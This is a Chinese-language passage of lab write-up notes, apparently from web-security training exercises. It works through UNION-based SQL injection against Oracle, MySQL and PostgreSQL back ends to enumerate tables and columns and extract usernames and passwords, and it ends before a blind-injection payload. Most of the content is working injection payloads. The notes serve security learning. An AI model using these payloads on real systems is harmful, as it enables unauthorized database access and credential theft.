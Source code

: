     ?category=Gifts' union select null,'aa' from DUAL--  结果显示正确

进一步，用cheet sheet中的oracle查询版本语句得到版本号：
  ` ?category=Gifts' union select null,banner from v$version--`

###lab8：得到mysql的版本号####

和lab7类似，只不过mysql的注释使用--发现不行，于是在cheet sheet中发现也可以用#，故：
 ` ?category=Gifts' union select null,@@version#`

也可以使用--+，故：
 ` ?category=Gifts' union select null,@@version--+`

###lab9获取table名字以及用户信息###
已知数据库不是oracle，存在一个包含username和password的table，要求采用union获取table名字以及用户信息
1.order by 确定有两个column
2.union select 'a','a'-- 确定两个column都是string类型
3.version确定数据库版本为postgreSQL数据库
4.
根据cheet sheet中postgreSQL语法，

> SELECT * FROM information_schema.tables

构造查询语句
`?category=Pets%27union%20select%20null,table_name%20from%20information_schema.tables--`

注意不能直接硬套语句，根据union规则，前后两个查询语句查的column数目要一样，order by确定了前面的查询语句所查的column数目为2，故采用null,table_name。可以google information schema postgreSQL查看tables有哪些column的名字。

根据以上返回结果，得到了users_szggts的表名字

采用以下语句查找该表的column名字
    'union select null,column_name from information_schema.columns where table_name='users_szggts'--

发现了username和password两个名字，继续输入用户信息，


    'union select username_rztjmt,password_jmrdrk from users_szggts--


###lab10:获取oracle数据库的内容###
已知数据库为oracle，和lab9一样，得到表名和内容，最终得到管理员密码


    ?category=Pets' union select null,banner FROM v$version--   确定oracle数据库版本
    ?category=Pets' union select null,table_name FROM all_tables--  得到table名字USERS_JTBOYM
    ?category=Pets' union SELECT null, column_name FROM all_tab_columns WHERE table_name = 'USERS_JTBOYM'-- 得到column名字PASSWORD_IGEQEZ和USERNAME_CNLIJJ
    ?category=Pets' union SELECT USERNAME_CNLIJJ, PASSWORD_IGEQEZ FROM USERS_JTBOYM--  得到用户名和密码
    ?category=Pets' union SELECT null, USERNAME_CNLIJJ||'!'||PASSWORD_IGEQEZ FROM USERS_JTBOYM-- 也可以改变输出形式，将用户名和密码拼接输出


###lab11：采用盲注获取用户名密码###
已知cookieid的参数存在sql注入漏洞，且存在一个user的表，进行利用得到用户名密码

1.确认cookieid存在注入漏洞，通过burp抓包得到cookie，

    Cookie: TrackingId=US5GTgznltoHpTB6; session=MbXCyIaEJsFcvDNmseBZV5oKREPuFSDq

猜测后台sql语句为select track-id from tracking-table where trackingId='xyz',采用以下payload语句：
